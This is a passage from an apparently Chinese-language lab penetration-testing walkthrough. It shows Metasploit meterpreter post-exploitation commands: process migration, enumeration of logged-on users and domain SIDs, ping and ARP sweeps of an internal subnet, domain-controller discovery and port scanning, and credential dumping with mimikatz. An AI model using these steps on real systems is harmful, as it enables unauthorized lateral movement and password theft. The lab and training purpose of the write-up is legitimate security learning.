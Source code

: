 ```shell
Subnet             Netmask            Gateway
------             -------            -------
10.10.10.0         255.255.255.0      Session 3
192.168.12.0       255.255.255.0      Session 3


# 查看进程
meterpreter > ps
# 进程注入
migrate 872
```

```shell
# 登录过的用户
run post/windows/gather/enum_logged_on_users
```

![image-20230310181512856](https://s2.loli.net/2023/03/11/HEFWMTSBuDjt8Ae.png)

```
S-1-5-21-1443003717-4130318662-4279967973-500		WEB\Administrator
S-1-5-21-2005268815-658469957-1189185684-1103		web
S-1-5-21-2005268815-658469957-1189185684-500		HACKBOX\Administrator
```

```shell
# 发现内网主机
# 通过ping命令
meterpreter > run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
# 通过arp协议
meterpreter > run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24
```

![image-20230310185824956](https://s2.loli.net/2023/03/11/9I1FAJHw6tKaybM.png)

```shell
# 获取dc的IP
meterpreter > run post/windows/gather/enum_domain
```

![image-20230310184821301](https://s2.loli.net/2023/03/11/y4xQrW1pYinDucZ.png)

```shell
# 扫描DC开放了那些端口
msf6 exploit(multi/handler) > use scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.149
msf6 auxiliary(scanner/portscan/tcp) > run
```

![image-20230310190609260](https://s2.loli.net/2023/03/11/MDkyCuT5vfhNZxI.png)



```shell
# 加载mimikatz模块
meterpreter > load mimikatz
# 抓取密码
meterpreter > creds_all
```
